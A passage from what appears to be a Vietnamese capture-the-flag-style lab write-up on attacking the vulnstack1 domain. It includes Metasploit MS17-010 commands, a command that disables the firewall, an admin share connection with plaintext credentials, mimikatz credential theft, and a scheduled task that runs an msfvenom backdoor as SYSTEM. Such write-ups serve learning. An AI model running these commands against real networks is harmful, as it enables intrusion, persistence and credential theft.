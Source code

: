 ```
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/65.jpg)

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command netstat -anot
```

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/67.jpg)

Mặc dù 3389 LISTEN trên all interface nhưng từ bên ngoài scan thì port này ra kết quả là đang close

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/68.jpg)

Tôi nghĩ đến. Đây có thể là do tưởng lửa của máy chủ này. Ngay sau đó tôi đã thực hiện một lệnh để tắt tưởng lửa trên máy chủ này:
```
set command netsh advfirewall set allprofiles state off
```
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/69.jpg)

Thử lại nào:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/70.jpg)

Thành công! Lúc này ta có thể remote đến máy chủ:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/71.jpg)

Giờ đây tôi đã thành công kiểm soát được cả 2 máy chủ trong internal.

Vì mục đích học tập nên tôi sẽ tiếp tục tìm hiểu thêm về domain này. Giả sử máy chủ domain controller không bị ảnh hưởng bởi lỗ hổn ms17_010. Khi khai thác thành công Windows 7. Ta đã tải lên mimikatz và lấy được thông tin của 1 tài khoản trong miền GOD.ORG

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/72.jpg)

Hãy xem tôi sử dụng tài khoản này để làm gì nhé:\
Đầu tiên. Tạo một IPC connect tới máy chủ Domain controller 192.168.52.138
```
net use \\192.168.52.138\c$ "quac@1234" /user:"administrator"
dir \\192.168.52.138\$
```
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/73.jpg)

Copy backdoor đã gen từ msfvenom
```
copy C:\phpStudy\WWW\yxcms\rs_backdoor.exe \\192.168.52.138\c$
```
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/74.jpg)

Thiết lập một Windows Task Scheduler chạy backdoor:
```
schtasks /create /tn "backdoor" /tr C:\rs_backdoor.exe /sc minute  /mo 1  /S 192.168.52.138 /RU System  /u administrator /p "quac@1234"
```
(/s computer :	Specifies the name or IP address of a remote computer (with or without backslashes). The default is the local computer.

Nó chưa thành công. Là vì máy chủ trong internal này không nhìn thấy được máy kali bên ngoài của tôi để kết nối tới. Phải chăng là do vậy? Nhưng khi tôi thử làm một điều khác:
```
schtasks /create /tn "backdoor" /tr notepad /sc minute  /mo 1  /S 192.168.52.138 /RU System  /u administrator /p "quac@1234"
```
Là bật notepad thì nó cũng không được thực thi. Cũng không thể xem các schtasks
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/75.jpg)
```